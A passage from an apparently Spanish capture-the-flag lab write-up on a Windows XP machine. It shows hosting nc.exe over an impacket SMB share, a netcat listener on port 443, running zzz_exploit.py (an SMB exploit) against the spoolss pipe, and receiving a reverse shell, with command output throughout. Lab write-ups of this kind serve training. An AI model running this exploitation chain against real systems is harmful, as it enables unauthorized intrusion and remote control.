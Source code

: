Procedemos a montar nuestro recurso compartido, donde alojaremos el `nc.exe`.


```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Nos ponemos en escucha con `ncat` por el puerto que configuramos, en este caso el correspondiente a el `443`.


## ELEVACION DE PRIVILEGIOS [#](#escalada-de-privilegios) {#escalada-de-privilegios}


Ejecutamos el `zzz_exploit.py` junto con el named pipe que previamente nos reporto el `checker.py`.

```bash
❯ python2 zzz_exploit.py 10.10.10.4 spoolss
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86101b30
SESSION: 0xe1b1cc68
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
```

y recibimos la conexión.

```cmd
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1046.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
